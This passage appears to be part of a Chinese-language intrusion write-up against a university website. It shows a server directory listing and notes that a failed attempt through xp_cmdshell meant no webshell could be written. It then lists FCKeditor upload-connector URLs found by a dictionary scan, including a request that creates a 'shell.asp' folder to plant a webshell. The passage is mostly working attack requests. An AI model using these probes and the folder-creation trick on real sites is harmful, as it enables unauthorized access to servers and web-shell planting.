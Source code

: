 ```
2010-11-05  00:17             2,131 ********.asp
2012-11-23  14:05    <DIR>          ********
2010-11-05  00:17               978 ********.asp
2010-11-05  00:17               688 ********.asp
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2010-11-05  00:17               346 ********.asp
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2010-11-05  00:17               551 ********.asp
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2012-11-23  14:05    <DIR>          ********
2010-11-05  00:17               656 ********.inf
              18 个文件         59,346 字节
              34 个目录 62,697,091,072 可用字节
```

但是xp_cmdshell被禁用，恢复无效，也不是sa账户，无法写入webshell

***

之后又发现了FCK Editor留下的文件上传后门，用了一个FCK字典扫出了

```
http://xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=connectors/asp/connector.asp
http://xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp
http://xxx.edu.cn/fckeditor/editor/filemanager/browser/default/browser.html?Type=file&Connector=connectors/asp/connector.Asp
http://xxx.edu.cn/fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=//connectors/asp/connector.asp
http://xxx.edu.cn/fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp
http://xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp
http://xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.asp
http://xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/aspx/connector.aspx
http://xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.aspx
http://xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/browser.html?Type=all&Connector=connectors/asp/connector.php
http://xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector
http://xxx.edu.cn/fckeditor/editor/fckeditor.html
http://xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/browser.html		
http://xxx.edu.cn/FCKeditor/editor/fckeditor.html
```
